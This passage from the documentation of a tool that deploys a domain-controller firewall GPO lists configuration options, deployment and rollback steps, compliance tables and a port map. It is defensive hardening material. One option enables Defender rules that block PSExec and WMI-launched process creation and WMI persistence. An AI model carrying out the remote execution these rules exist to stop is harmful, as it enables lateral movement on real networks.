If `false`, this rule will be disabled.

### EnableNetbiosDatagramService

Indicates whether inbound NetBIOS Datagram Service traffic should be allowed.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

If `true`, the [Active Directory Domain Controller - NetBIOS name resolution (UDP-In)](#active-directory-domain-controller---netbios-name-resolution-udp-in)
firewall rule will be enabled in the target GPO.

If `false`, this rule will be disabled.

### EnableNetbiosSessionService

Indicates whether inbound NetBIOS Session Service (NBSS) traffic should be allowed.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

If `true`, the [File and Printer Sharing (NB-Session-In)](#file-and-printer-sharing-nb-session-in)
firewall rule will be enabled in the target GPO.

If `false`, this rule will be disabled.

### EnableWINS

Indicates whether inbound Windows Internet Name Service (WINS) traffic should be allowed.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

If `true`, the following WINS firewall rules will be enabled in the target GPO:

- [Windows Internet Naming Service (WINS) (TCP-In)](#windows-internet-naming-service-wins-tcp-in)
- [Windows Internet Naming Service (WINS) (UDP-In)](#windows-internet-naming-service-wins-udp-in)
- [Windows Internet Naming Service (WINS) - Remote Management (RPC)](#windows-internet-naming-service-wins---remote-management-rpc)

If `false`, these rules will be disabled.

### EnableDhcpServer

Indicates whether inbound Dynamic Host Configuration Protocol (DHCP) server traffic should be allowed.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

If `true`, the following DHCP server firewall rules will be enabled in the target GPO:

- [DHCP Server v4 (UDP-In)](#dhcp-server-v4-udp-in)
- [DHCP Server v6 (UDP-In)](#dhcp-server-v6-udp-in)
- [DHCP Server Failover (TCP-In)](#dhcp-server-failover-tcp-in)
- [DHCP Server (RPC-In)](#dhcp-server-rpc-in)

If `false`, these rules will be disabled.

### EnableNPS

Indicates whether inbound Network Policy Server (NPS) / RADIUS traffic should be allowed.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

If `true`, the following NPS-related firewall rules will be enabled in the target GPO:

- [Network Policy Server (Legacy RADIUS Authentication - UDP-In)](#network-policy-server-legacy-radius-authentication---udp-in)
- [Network Policy Server (Legacy RADIUS Accounting - UDP-In)](#network-policy-server-legacy-radius-accounting---udp-in)
- [Network Policy Server (RADIUS Authentication - UDP-In)](#network-policy-server-radius-authentication---udp-in)
- [Network Policy Server (RADIUS Accounting - UDP-In)](#network-policy-server-radius-accounting---udp-in)
- [Network Policy Server (RPC)](#network-policy-server-rpc)

> [!NOTE]
> If this setting is enabled, the [RadiusClientAddresses](#radiusclientaddresses) option
> should be configured as well.

If `false`, NPS-related firewall rules will be disabled.

### RadiusClientAddresses

List of RADIUS client IP addresses, from which the traffic will be allowed.

```yaml
Type: String[]
Required: false
Default value: [ "Any" ]
```

Possible values: IPv4 address, IPv4 subnet or IPv4 address range, separated by a comma,
e.g. "10.220.2.0/24", "10.220.4.0/24", "10.220.5.0/24", "192.168.0.1-192.168.0.10".

Specify IPv4 address, IPv4 subnet or address range of all your RADIUS clients.

### EnableKMS

Indicates whether inbound Key Management Service (KMS) traffic should be allowed.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

If `true`, the [Key Management Service (TCP-In)](#key-management-service-tcp-in)
firewall rule will be enabled in the target GPO.

If `false`, this rule will be disabled.

### EnableWSUS

Indicates whether inbound Windows Server Update Services (WSUS) traffic should be allowed.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

If `true`, these WSUS firewall rules will be enabled in the GPO:

- [Windows Server Update Services (HTTP-In)](#windows-server-update-services-http-in)
- [Windows Server Update Services (HTTPS-In)](#windows-server-update-services-https-in)

If `false`, the WSUS rules will be disabled.

### EnableWDS

Indicates whether inbound Windows Deployment Services (WDS) traffic should be allowed.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

If `true`, the following WDS firewall rules will be enabled in the target GPO:

- [Windows Deployment Services (UDP-In)](#windows-deployment-services-udp-in)
- [Windows Deployment Services (RPC-In)](#windows-deployment-services-rpc-in)

If `false`, the WDS rules will be disabled.

### EnableWebServer

Indicates whether inbound http.sys-based web server traffic on default HTTP and HTTPS ports should be allowed.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

If `true`, the following web server firewall rules will be enabled in the target GPO:

- [World Wide Web Services (HTTP Traffic-In)](#world-wide-web-services-http-traffic-in)
- [World Wide Web Services (HTTPS Traffic-In)](#world-wide-web-services-https-traffic-in)

If `false`, the web server rules will be disabled.

> [!WARNING]
> Deploying web servers on domain controllers is not recommended,
> as it would excessively increase their attack surface.

### EnableFSRMManagement

Indicates whether inbound File Server Resource Manager (FSRM) management traffic should be allowed.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

If `true`, these FSRM-related firewall rules will be enabled in the target GPO:

- [Remote File Server Resource Manager Management - FSRM Service (RPC-In)](#remote-file-server-resource-manager-management---fsrm-service-rpc-in)
- [Remote File Server Resource Manager Management - FSRM Reports Service (RPC-In)](#remote-file-server-resource-manager-management---fsrm-reports-service-rpc-in)

If `false`, the FSRM rules will be disabled.

### EnablePrintSpooler

Indicates whether inbound Print Spooler traffic through RPC over TCP should be allowed.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

If `true`, the [File and Printer Sharing (Spooler Service - RPC)](#file-and-printer-sharing-spooler-service---rpc)
firewall rule will be enabled in the target GPO.

If `false`, this rule will be disabled.

> [!WARNING]
> It is highly recommended to DISABLE the Printer Spooler service on domain controllers
> to decrease the attack surface.

### EnableNetworkProtection

Indicates whether the [Network protection](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/network-protection?view=o365-worldwide#overview-of-network-protection)
feature of Microsoft Defender Antivirus should be enabled.

```yaml
Type: Boolean
Required: false
Default value: null
Recommended value: true
Possible values: true / false / null
```

If `true`, MDA Network Protection will be configured in **block mode**.

If `false`, MDA Network Protection will be configured in **audit mode** only.

If `null`, MDA Network Protection will not be managed by the GPO.

### BlockWmiCommandExecution

Indicates whether to block [process creations originating from PSExec and WMI commands](#ms-wmi-windows-management-instrumentation-remote-protocol)
using Defender ASR.

```yaml
Type: Boolean
Required: false
Default value: null
Recommended value: true
Possible values: true / false / null
```

This is achieved by enforcing the following Microsoft Defender Antivirus Attack Surface Reduction (ASR) rules:

- [Block process creations originating from PSExec and WMI commands](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/attack-surface-reduction-rules-reference?view=o365-worldwide#block-process-creations-originating-from-psexec-and-wmi-commands)
- [Block persistence through WMI event subscription](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/attack-surface-reduction-rules-reference?view=o365-worldwide#block-persistence-through-wmi-event-subscription)

If `true`, MDA Attack Surface Reduction rules (mentioned above) will be configured in **block mode**.

If `false`, MDA Attack Surface Reduction rules (mentioned above) will be configured in **audit mode** only,
allowing you to evaluate the possible impact if the rules were enabled in block mode.

If `null`, MDA Attack Surface Reduction rules will not be managed by the GPO, effectively disabling the rules.

> [!IMPORTANT]
> System Center Configuration Manager (SCCM) client and Distribution Point (DP)
> will not work properly on domain controllers if this setting is enabled.

### EnableRpcFilters

Indicates whether additional [filtering of RPC over Named Pipes](#rpc-filters) should be applied.

```yaml
Type: Boolean
Required: false
Default value: null
Recommended value: true
Possible values: true / false / null
```

If `true`, RPC filters defined in the `RpcNamedPipesFilters.txt` file will be enabled using a startup script.

If `false`, any pre-existing RPC filters will be deleted using a startup script.

If `null`, RPC filters will not be changed by the GPO.

### EnableLocalIPsecRules

Indicates whether local IPSec rules should be enabled.

```yaml
Type: Boolean
Required: false
Default value: true
Recommended value: false
Possible values: true / false
```

If `true`, local IPSec rules will be applied.

If `false`, only IPSec rules distributed through GPOs will be applied.

> [!NOTE]
> Although no IPSec rules are deployed by this solution,
> most [security baselines](#security-standards-compliance) require local IPSec rules to be disabled.

### CustomRuleFileNames

Specifies the name(s) of additional script file(s) containing firewall rules
that will be imported into the Group Policy Object (GPO).

```yaml
Type: String[]
Required: false
Default value: null
```

There are several practical advantages to keeping customer-specific firewall rules in separate files:

- The main script file can easily be updated without the need to re-apply customer modifications.
- Custom rule scripts can be shared among multiple server roles.
  As an example, rules enabling communication with a backup agent will probably be the same
  for a domain controller (DC) and certification authority (CA).

Below is an excerpt from a custom rule script file that enables communication with Zabbix monitoring agents:

```powershell
New-NetFirewallRule -GPOSession $GPOSession `
                    -Name 'Zabbix-In-TCP' `
                    -DisplayName 'Zabbix Agent (TCP-In)' `
                    -Group 'Zabbix Agent' `
                    -Enabled True `
                    -Profile Any `
                    -Direction Inbound `
                    -Action Allow `
                    -Protocol TCP `
                    -LocalPort 10050 `
                    -RemoteAddress $RemoteManagementAddresses `
                    -Program '%ProgramFiles%\Zabbix\zabbix_agentd.exe' `
                    -Verbose:$isVerbose > $null
```

See the `CustomRules.Sample.ps1` sample file, which contains some additional boilerplate code
and can be used as a template.

## Deployment

### Prerequisites

- The tool has been tested on Windows Server 2022, Windows Server 2019, and Windows 11,
  but it should work on all Windows versions currently supported by Microsoft.

     

- Although the script might work in PowerShell Core, it has only been tested in PowerShell Desktop.

    

- Domain Admins group membership or equivalent privileges, enabling the creation of a Group Policy Object (GPO),
  creation of folders and files in `SYSVOL`, and linking the GPO to the Domain Controllers OU.
- PowerShell modules that must be installed as part of RSAT:
    - [GroupPolicy](https://learn.microsoft.com/en-us/powershell/module/grouppolicy/?view=windowsserver2022-ps)
    - [ActiveDirectory](https://learn.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps)
- In environments with Microsoft Advanced Group Policy Management (AGPM), all GPO changes happen outside of AGPM.

### Installation

1. [Download](https://github.com/MichaelGrafnetter/active-directory-firewall/releases) the current version of the `DCFWTool`
   to an administrative Windows computer.
2. Rename the `Set-ADDSFirewallPolicy.Starter.json` configuration file to `Set-ADDSFirewallPolicy.json`.
3. Review the [available configuration options](#configuration) and adjust the JSON file to fit your environment.
4. In some organizations, additional firewall rules might need to be added
   through the [CustomRuleFileNames](#customrulefilenames) option. Always perform a review
   of the [default set of rules](#inbound-firewall-rules-reference) that will be deployed by the GPO and check if it is sufficient.
5. Open a Powershell terminal and run the `Set-ADDSFirewallPolicy.ps1` script.

    

    The script should create a new Group Policy Object (GPO) called *Domain Controller Firewall*.
    This default name [can be changed](#grouppolicyobjectname) in the JSON configuration file.

    > [!NOTE]
    > The GPO is intentionally **not linked** to any organizational unit (OU) by default.

6. Open the Group Policy Management Console (`gpmc.msc`) and **review the freshly created GPO thoroughly**.
   You might need to return to step 3 if anything does not check out.
7. Link the newly created GPO to the Domain Controllers OU.

    

8. Wait until the GPO gets replicated from the PDC Emulator to the remaining domain controllers.
   The DCs should then apply the new firewall configuration within 5 minutes.
9. Some settings require additional manual actions to be performed on all DCs to apply.
   Please refer to the [System Reboots](#system-reboots).

### System Reboots

Changes to some settings require up to 2 reboots of the target domain controller to be applied.
This is the case with static port number configurations and settings that are modified through the startup script:

- [NtdsStaticPort](#ntdsstaticport)
- [NetlogonStaticPort](#netlogonstaticport)
- [FrsStaticPort](#frsstaticport)
- [DfsrStaticPort](#dfsrstaticport)
- [WmiStaticPort](#wmistaticport)
- [EnableRpcFilters](#enablerpcfilters)
- [LogFilePath](#logfilepath)
- [EnableNPS](#enablenps)

If system reboots of all domain controllers are undesirable, the following steps can be performed instead:

1. Make sure that the Group Policy changes are replicated to all domain controllers.
2. Invoke the `gpupdate.exe /Target:Computer` command for the changed policies to be applied immediately.
3. Run the `gpscript.exe /startup` command for Group Policy startup scripts to be executed immediately.
4. Execute the `net.exe stop NTDS /y && net.exe start NTDS` command to restart the AD DS Domain Controller service.
5. Execute the `net.exe stop Netlogon /y && net.exe start Netlogon` command to restart the Netlogon service.
6. Execute the `net.exe stop IAS /y && net.exe start IAS` command to restart the Network Policy Server service, if present.
7. Execute the `net.exe stop NtFrs /y && net.exe start NtFrs` command to restart the File Replication service
   if migration to DFS-R has not been performed yet.
8. Execute the `net.exe stop Winmgmt /y && net.exe start Winmgmt` command to restart the Windows Managament
   Instrumetation service, if its port is to be changed.
9. Repeat steps 2 to 8 on all domain controllers.

To simplify this process, the `Update-ADDSFirewallPolicy.bat` script contains all the commands discussed above.

> [!IMPORTANT]
> The Windows Managament Instrumetation (WMI) service sometimes fails to start after being reconfigured.
> When this happens, a domain controller reboot cannot be avoided.

### Multi-Domain Forests

The firewall policy can be deployed to multiple AD domains at once.
The recommended approach for multi-domain forests is to have multiple domain-specific JSON configuration files.
Each configuration file must contain the [TargetDomain](#targetdomain) setting.
The optional `-ConfigurationFileName` script parameter can then be used to specify the JSON file to be applied:

```powershell
.\Set-ADDSFirewallPolicy.ps1 -ConfigurationFileName 'DCFW.CONTOSO.json'
.\Set-ADDSFirewallPolicy.ps1 -ConfigurationFileName 'DCFW.CORP.json'
```

### Configuration Updates

The `Set-ADDSFirewallPolicy.ps1` script can be executed repeatedly. If the target GPO already exists,
the script will modify it to match the configuration file instead of creating a new GPO.
This behavior is especially useful if any IP addresses in the firewall rules need to be changed.
Instead of modifying the firewall rules one by one, it is enough to change the corresponding JSON configuration file
and execute the PowerShell script again.

The script always deletes all firewall rules in the target GPO and recreates them from scratch.
This is performed as an atomic operation (transaction) to prevent the firewall policy
from being in an incomplete state that could potentially result in a DoS.

### Troubleshooting

#### Script Execution Policy

You might need to adjust your Powershell execution policy to allow execution of `Set-ADDSFirewallPolicy.ps1` script:


> [!NOTE]
> If you are using AppLocker, Device Guard, or Constrained Language Mode,
> you might need adjust the configured restrictions in order to run the script.

#### Dropped Packets

The following PowerShell script can be used to display the Windows Firewall log file in a human-readable way:

```powershell
[string] $logFilePath = "$env:SystemRoot\System32\LogFiles\Firewall\pfirewall.log"

[string[]] $columnsToShow = @('date','time','path','action','pid',
    'src-ip','src-port','dst-ip','dst-port','icmptype','icmpcode')

Get-Content -Path $LogFilePath |
    Select-Object -Skip 3 |
    ForEach-Object { $PSItem -replace '^#Fields: ' } |
    ConvertFrom-Csv -Delimiter ' ' |
    Select-Object -Property $columnsToShow |
    Out-GridView -Title 'Windows Firewall Log' -Wait
```

{ width=400px }

An improved version of this script is available in the `Show-WindowsFirewallLog.ps1` file, which is part of the `DCFWTool`.

### Rollback

As some of the settings are propagated through a startup script and some, even though propagated through GPO,
[cause tattooing](#dealing-with-gpo-tattooing), resetting the DC configuration
is not as straightforward as unlinking the firewall policy GPO.

To perform an emergency rollback procedure, follow these steps:

1. Unlink the Domain Controller Firewall GPO

    Delete or unlink the firewall GPO from the Domain Controllers OU in the Group Policy Management console.

2. Wait for AD replication

    Enforce replication or wait until the AD and SYSVOL replication convergence is achieved
    and all DCs in the domain have received the new GPO settings.

3. Execute the rollback script

    Run the `Undo-ADDSFirewallPolicy.bat` in an elevated command prompt on all domain controllers in the domain.

4. Restart the DCs

    Although the script from the previous step restarts the affected services,
    a reboot of all domain controllers might be required
    for the new default settings to be applied.

## Security Standards Compliance

### Security Technical Implementation Guide (STIG)

The [Security Technical Implementation Guide (STIG)](https://public.cyber.mil/stigs/) for Microsoft Windows Defender
Firewall with Advanced Security was developed
and [published](https://dl.dod.cyber.mil/wp-content/uploads/stigs/zip/U_MS_Windows_Defender_Firewall_V2R2_STIG.zip)
by [Defense Information Systems Agency (DISA)](https://www.disa.mil/) as a tool to improve
the security of [Department of Defense (DOD)](https://www.defense.gov/) information systems.


Our firewall configuration is compliant with the majority of the STIG requirements out-of-the-box.
The [configuration file](#configuration-file) can easily be modified to achieve full compliance.
The following table of requirements corresponds to the Version 2, Release 2 of the STIG,
published on November 9<sup>th</sup>, 2023.

| Group ID   | Severity | Rule Title                                                    | Compliance                      |
|------------|----------|---------------------------------------------------------------|---------------------------------|
| [V-241989] | CAT II   | Windows Defender Firewall with Advanced Security must be enabled when connected to a domain. | ☑ |
| [V-241990] | CAT II   | Windows Defender Firewall with Advanced Security must be enabled when connected to a private network. | ☑ |
| [V-241991] | CAT II   | Windows Defender Firewall with Advanced Security must be enabled when connected to a public network. | ☑ |
| [V-241992] | CAT I    | Windows Defender Firewall with Advanced Security must block unsolicited inbound connections when connected to a domain. | ☑ |
| [V-241993] | CAT II   | Windows Defender Firewall with Advanced Security must allow outbound connections, unless a rule explicitly blocks the connection when connected to a domain. | ☑ |
| [V-241994] | CAT III  | Windows Defender Firewall with Advanced Security log size must be configured for domain connections. | ☐ [LogMaxSizeKilobytes](#logmaxsizekilobytes) must be set to at least `16384`. |
| [V-241995] | CAT III  | Windows Defender Firewall with Advanced Security must log dropped packets when connected to a domain. | ☐ [LogDroppedPackets](#logdroppedpackets) must be set to `true`. |
| [V-241996] | CAT III  | Windows Defender Firewall with Advanced Security must log successful connections when connected to a domain. | ☐ [LogAllowedPackets](#logallowedpackets) must be set to `true`. |
| [V-241997] | CAT I    | Windows Defender Firewall with Advanced Security must block unsolicited inbound connections when connected to a private network. | ☑ |
| [V-241998] | CAT II   | Windows Defender Firewall with Advanced Security must allow outbound connections, unless a rule explicitly blocks the connection when connected to a private network. | ☑ |
| [V-241999] | CAT III  | Windows Defender Firewall with Advanced Security log size must be configured for private network connections. | ☐ [LogMaxSizeKilobytes](#logmaxsizekilobytes) must be at least `16384`. |
| [V-242000] | CAT III  | Windows Defender Firewall with Advanced Security must log dropped packets when connected to a private network. | ☐ [LogDroppedPackets](#logdroppedpackets) must be set to `true`. |
| [V-242001] | CAT III  | Windows Defender Firewall with Advanced Security must log successful connections when connected to a private network. | ☐ [LogAllowedPackets](#logallowedpackets) must be set to `true`. |
| [V-242002] | CAT I    | Windows Defender Firewall with Advanced Security must block unsolicited inbound connections when connected to a public network. | ☑ |
| [V-242003] | CAT II   | Windows Defender Firewall with Advanced Security must allow outbound connections, unless a rule explicitly blocks the connection when connected to a public network. | ☑ |
| [V-242004] | CAT II   | Windows Defender Firewall with Advanced Security local firewall rules must not be merged with Group Policy settings when connected to a public network. | ☑ |
| [V-242005] | CAT II   | Windows Defender Firewall with Advanced Security local connection rules must not be merged with Group Policy settings when connected to a public network. | ☐ [EnableLocalIPsecRules](#enablelocalipsecrules) must be set to `false`. |
| [V-242006] | CAT III  | Windows Defender Firewall with Advanced Security log size must be configured for public network connections. | ☐ [LogMaxSizeKilobytes](#logmaxsizekilobytes) must be at least `16384`. |
| [V-242007] | CAT III  | Windows Defender Firewall with Advanced Security must log dropped packets when connected to a public network. | ☐ [LogDroppedPackets](#logdroppedpackets) must be set to `true`. |
| [V-242008] | CAT III  | Windows Defender Firewall with Advanced Security must log successful connections when connected to a public network. | ☐ [LogAllowedPackets](#logallowedpackets) must be set to `true`. |
| [V-242009] | CAT II   | Inbound exceptions to the firewall on domain workstations must only allow authorized remote management hosts. | ☐ [ManagementAddresses](#managementaddresses) must be configured properly. |

[V-241989]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-241989
[V-241990]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-241990
[V-241991]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-241991
[V-241992]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-241992
[V-241993]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-241993
[V-241994]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-241994
[V-241995]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-241995
[V-241996]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-241996
[V-241997]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-241997
[V-241998]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-241998
[V-241999]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-241999
[V-242000]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-242000
[V-242001]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-242001
[V-242002]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-242002
[V-242003]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-242003
[V-242004]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-242004
[V-242005]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-242005
[V-242006]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-242006
[V-242007]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-242007
[V-242008]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-242008
[V-242009]: https://www.stigviewer.com/stig/microsoft_windows_firewall_with_advanced_security/2021-10-15/finding/V-242009

### Center for Internet Security (CIS) Benchmark

{ width=200pt align=left }

[CIS Benchmarks](https://www.cisecurity.org/cis-benchmarks) are created using a consensus review process
comprised of a global community of subject matter experts.
The process combines real-world experience with data-based information to create technology-specific
guidance to assist users in securing their environments. Consensus participants provide perspectives
from a diverse set of backgrounds including consulting, software development, audit and compliance,
security research, operations, government, and legal.

Our firewall configuration is compliant with the majority
of the [CIS Microsoft Windows Server 2022 v2.0.0 L1 DC](https://www.tenable.com/audits/CIS_Microsoft_Windows_Server_2022_Benchmark_v2.0.0_L1_DC)
requirements out-of-the-box. The configuration file can easily be modified
to achieve full compliance, with one negligible exception.

| CIS Title | Compliance |
|------------------------------------|-----------|
| (L1) Ensure Windows Firewall: Domain: Firewall state is set to On (recommended)| ☑ |
| (L1) Ensure Windows Firewall: Domain: Inbound connections is set to Block (default)| ☑ |
| (L1) Ensure Windows Firewall: Domain: Settings: Display a notification is set to No| ☑ |
| (L1) Ensure Windows Firewall: Domain: Logging: Name is set to %SystemRoot%\\System32\\logfiles\\firewall\\domainfw.log | ☐ Partially[^cis-partially] |
| (L1) Ensure Windows Firewall: Domain: Logging: Size limit (KB) is set to 16,384 KB or greater | ☐ [LogMaxSizeKilobytes](#logmaxsizekilobytes) must be set to at least `16384`. |
| (L1) Ensure Windows Firewall: Domain: Logging: Log dropped packets is set to Yes| ☐ [LogDroppedPackets](#logdroppedpackets) must be set to `true`. |
| (L1) Ensure Windows Firewall: Domain: Logging: Log successful connections is set to Yes | ☐ [LogAllowedPackets](#logallowedpackets) must be set to `true`.  |
| (L1) Ensure Windows Firewall: Private: Firewall state is set to On (recommended) | ☑ |
| (L1) Ensure Windows Firewall: Private: Inbound connections is set to Block (default) | ☑ |
| (L1) Ensure Windows Firewall: Private: Settings: Display a notification is set to No| ☑ |
| (L1) Ensure Windows Firewall: Private: Logging: Name is set to %SystemRoot%\\System32\\logfiles\\firewall\\privatefw.log | ☐ Partially[^cis-partially] |
| (L1) Ensure Windows Firewall: Private: Logging: Size limit (KB) is set to 16,384 KB or greater | ☐ [LogMaxSizeKilobytes](#logmaxsizekilobytes) must be set to at least `16384`. |
| (L1) Ensure Windows Firewall: Private: Logging: Log dropped packets is set to Yes | ☐ [LogDroppedPackets](#logdroppedpackets) must be set to `true`. |
| (L1) Ensure Windows Firewall: Private: Logging: Log successful connections is set to Yes| ☐ [LogAllowedPackets](#logallowedpackets) must be set to `true`.  |
| (L1) Ensure Windows Firewall: Public: Firewall state is set to On (recommended) | ☑ |
| (L1) Ensure Windows Firewall: Public: Inbound connections is set to Block (default) | ☑ |
| (L1) Ensure Windows Firewall: Public: Settings: Display a notification is set to No| ☑ |
| (L1) Ensure Windows Firewall: Public: Settings: Apply local firewall rules is set to No| ☑ |
| (L1) Ensure Windows Firewall: Public: Settings: Apply local connection security rules is set to No| ☐ [EnableLocalIPsecRules](#enablelocalipsecrules) must be set to `false`. |
| (L1) Ensure Windows Firewall: Public: Logging: Name is set to %SystemRoot%\\System32\\logfiles\\firewall\\publicfw.log | ☐ Partially[^cis-partially] |
| (L1) Ensure Windows Firewall: Public: Logging: Size limit (KB) is set to 16,384 KB or greater | ☐ [LogMaxSizeKilobytes](#logmaxsizekilobytes) must be set to at least `16384`. |
| (L1) Ensure Windows Firewall: Public: Logging: Log dropped packets is set to Yes| ☐ [LogDroppedPackets](#logdroppedpackets) must be set to `true`. |
| (L1) Ensure Windows Firewall: Public: Logging: Log successful connections is set to Yes | ☐ [LogAllowedPackets](#logallowedpackets) must be set to `true`.  |

[^cis-partially]: All the profiles share the same log file. See the [LogFilePath](#logfilepath) setting.

### Microsoft Security Compliance Toolkit

{ width=200pt align=left }

The [Security Compliance Toolkit (SCT)](https://learn.microsoft.com/en-us/windows/security/operating-system-security/device-management/windows-security-configuration-framework/security-compliance-toolkit-10)
is a set of tools that allows enterprise security administrators to download, analyze, test, edit,
and store Microsoft-recommended security configuration baselines for Windows and other Microsoft products.

Our firewall configuration is compliant with the majority
of the [SCT Windows Server 2022 Security Baseline](https://www.microsoft.com/en-us/download/details.aspx?id=55319)
requirements out-of-the-box and the configuration file can easily be modified to achieve full compliance.

| Firewall Policy Path | Setting Name | Win 2016 DC Requirement | Win 2022 DC Requirement | Compliance |
|-------------------|----------------|-----------|-----------|---------------------|
| Domain Profile\\Logging | Log dropped packets | Yes | Not defined | ☐ [LogDroppedPackets](#logdroppedpackets) must be set to `true`. |
| Domain Profile\\Logging | Log successful packets | Yes | Not defined | ☐ [LogAllowedPackets](#logallowedpackets) must be set to `true`. |
| Domain Profile\\Logging | Size limit (KB) | 16384 | Not defined | ☐ [LogMaxSizeKilobytes](#logmaxsizekilobytes) must be set to at least `16384`. |
| Domain Profile\\Settings | Display a notification | No | Not defined | ☑ |
| Domain Profile\\State | Firewall state | On | On | ☑ |
| Domain Profile\\State | Inbound connections | Block | Block | ☑ |
| Domain Profile\\State | Outbound connections | Allow | Allow | ☑ |
| Private Profile\\Logging | Log dropped packets | Yes | Not defined | ☐ [LogDroppedPackets](#logdroppedpackets) must be set to `true`. |
| Private Profile\\Logging | Log successful packets | Yes | Not defined | ☐ [LogAllowedPackets](#logallowedpackets) must be set to `true`. |
| Private Profile\\Logging | Size limit (KB) | 16384 | Not defined | ☐ [LogMaxSizeKilobytes](#logmaxsizekilobytes) must be set to at least `16384`. |
| Private Profile\\Settings | Display a notification | No | Not defined | ☑ |
| Private Profile\\State | Firewall state | On | On | ☑ |
| Private Profile\\State | Inbound connections | Block | Block | ☑ |
| Private Profile\\State | Outbound connections | Allow | Allow | ☑ |
| Public Profile\\Logging | Log dropped packets | Yes | Not defined| ☐ [LogDroppedPackets](#logdroppedpackets) must be set to `true`. |
| Public Profile\\Logging | Log successful packets | Yes | Not defined | ☐ [LogAllowedPackets](#logallowedpackets) must be set to `true`. |
| Public Profile\\Logging | Size limit (KB) | 16384 | Not defined| ☐ [LogMaxSizeKilobytes](#logmaxsizekilobytes) must be set to at least `16384`. |
| Public Profile\\Settings | Apply local connection security rules | No | N/A | ☐ [EnableLocalIPsecRules](#enablelocalipsecrules) must be set to `false`. |
| Public Profile\\Settings | Apply local firewall rules | No | Not defined | ☑ |
| Public Profile\\Settings | Display a notification | No | Not defined | ☑ |
| Public Profile\\State | Firewall state | On | On | ☑ |
| Public Profile\\State | Inbound connections | Block | Block | ☑ |
| Public Profile\\State | Outbound connections | Allow | Allow | ☑ |

## Inbound Firewall Rules Reference

### Microsoft's Guidelines

There are multiple official documents available that list the ports used by Windows Server and specifically Active Directory:

- [How to configure a firewall for Active Directory domains and trusts](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/config-firewall-for-ad-domains-and-trusts)
- [Service overview and network port requirements for Windows](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/service-overview-and-network-port-requirements)

The following table maps all the ports used by domain controllers to the corresponding Windows Firewall rules:

|Port|Service|Rule Reference|
|---|---|---|
|123/UDP|W32Time|[Active Directory Domain Controller - W32Time (NTP-UDP-In)](#active-directory-domain-controller---w32time-ntp-udp-in)|
|135/TCP|RPC Endpoint Mapper|[Active Directory Domain Controller (RPC-EPMAP)](#active-directory-domain-controller-rpc-epmap) |
|464/UDP|Kerberos password change|[Kerberos Key Distribution Center - PCR (UDP-In)](#kerberos-key-distribution-center---pcr-udp-in)|
|464/TCP|Kerberos password change|[Kerberos Key Distribution Center - PCR (TCP-In)](#kerberos-key-distribution-center---pcr-tcp-in)|
|49152-65535/TCP|RPC for LSA, SAM, NetLogon|[Active Directory Domain Controller (RPC)](#active-directory-domain-controller-rpc)|
|389/UDP|LDAP|[Active Directory Domain Controller - LDAP (UDP-In)](#active-directory-domain-controller---ldap-udp-in)|
|389/TCP|LDAP|[Active Directory Domain Controller - LDAP (TCP-In)](#active-directory-domain-controller---ldap-tcp-in)|
|636/TCP|LDAP SSL|[Active Directory Domain Controller - Secure LDAP (TCP-In)](#active-directory-domain-controller---secure-ldap-tcp-in)|
|3268/TCP|LDAP GC|[Active Directory Domain Controller - LDAP for Global Catalog (TCP-In)](#active-directory-domain-controller---ldap-for-global-catalog-tcp-in)|
|3269/TCP|LDAP GC SSL|[Active Directory Domain Controller - Secure LDAP for Global Catalog (TCP-In)](#active-directory-domain-controller---secure-ldap-for-global-catalog-tcp-in)|
|9389/TCP|AD Web Services|[Active Directory Web Services (TCP-In)](#active-directory-web-services-tcp-in)|
|53/UDP|DNS|[DNS (UDP, Incoming)](#dns-udp-incoming)|
